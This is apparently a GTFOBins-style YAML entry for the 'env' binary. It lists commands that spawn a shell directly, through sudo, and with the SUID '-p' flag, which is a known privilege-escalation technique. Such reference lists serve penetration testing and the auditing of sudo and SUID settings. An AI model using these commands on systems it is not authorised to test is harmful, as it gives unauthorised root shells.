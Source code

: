 ```yaml
---
functions:
  execute-interactive:
    - code: env /bin/sh
  sudo-enabled:
    - code: sudo env /bin/sh
  suid-enabled:
    - code: ./env /bin/sh -p
---
```

